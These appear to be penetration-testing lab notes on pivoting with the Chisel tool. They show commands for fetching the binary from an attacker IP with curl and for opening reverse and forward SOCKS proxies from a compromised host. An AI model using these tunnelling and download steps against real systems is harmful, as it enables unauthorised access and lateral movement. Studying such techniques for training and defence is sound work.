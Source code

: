 




# Chisel 

[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided). In many ways it provides the same functionality as the standard SSH proxying / port forwarding we covered earlier; however, the fact it doesn't require SSH access on the compromised target is a big bonus.

Before we can use chisel, we need to download appropriate binaries from the tool's [Github release page](https://github.com/jpillora/chisel/releases). These can then be unzipped using `gunzip`, and executed as normal:


### Chisel binary has two modes: _client_ and _server_.

Attack Machine
```
./chisel server -p LISTEN_PORT --reverse &
```

```
curl 10.50.106.240/chisel_1.9.1_linux_amd64  -o chisel-sardarji
```

```
Attacker
./chisel_1.9.1_linux_amd64 server -p 1337 --reverse & 
```

![[Pasted image 20240727174405.png]]

Compromised
```
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

```
client 10.50.88.33:1337 R:socks &
```


Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on `127.0.0.1:1080`. As such, we will be using port 1080 when sending data through the proxy.


## Forward Sock Proxy
Victim
```
./chisel server -p LISTEN_PORT --socks5
```

Attacker
```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```
